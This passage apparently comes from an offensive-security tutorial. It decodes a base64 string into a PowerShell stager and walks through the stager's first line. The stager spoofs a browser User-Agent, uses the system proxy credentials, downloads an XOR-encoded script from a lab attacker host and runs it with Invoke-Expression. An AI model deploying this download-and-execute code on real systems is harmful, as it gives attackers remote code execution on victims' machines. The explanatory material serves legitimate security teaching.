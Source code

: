 On a side note, we can reverse base64 encoding with the following command:

```
root@AttackServer:# echo "WwBTAFkAUwB0AGUAbQAuI[...]" | base64 -d
```

This command will decode the base64-encoded string, revealing the original PowerShell commands as described below:

```
# Disable Expect 100 Continue behavior
[System.Net.ServicePointManager]::Expect100Continue = $false

# Create a new WebClient object
$webClient = New-Object System.Net.WebClient

# Set the User-Agent header
$userAgent = 'Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko'
$webClient.Headers.Add('User-Agent', $userAgent)

# Use the default system proxy settings
$webClient.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$webClient.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# XOR key for decoding
$key = '7c37be7260f8cd7c1f5e4dbdd7bc5b23'
$index = 0

# Download and decode the script
$encodedScript = $webClient.DownloadString("http://192.168.56.101:443/index.asp")
$decodedScript = [char[]]$encodedScript | ForEach-Object {
    $_ -bxor [char[]]$key[$index++ % $key.Length]
}

# Execute the decoded script
Invoke-Expression ($decodedScript -join '')
```

Quick breakdown:

```
[System.Net.ServicePointManager]::Expect100Continue = $false
```

This setting disables the default behavior of the WebClient object that sends an HTTP 100-Continue response, which is typically used to determine if the server is willing to accept the request.

The HTTP 100-Continue response is part of the HTTP/1.1 protocol. It is used as a handshake mechanism between a client and server. When a client sends a request with a Expect: 100-Continue header, the server responds with a 100 Continue status if it is prepared to accept the request. This allows the client to send the request body only after receiving this preliminary approval, thereby saving bandwidth if the server is not willing to accept the request.

Setting Expect100Continue to $false disables this behavior. This means the WebClient object will not wait for a 100 Continue response before sending the request body. This can be useful in certain scenarios where the overhead of waiting for this response is not desired, or in cases where you are making a series of requests that do not need this handshake.
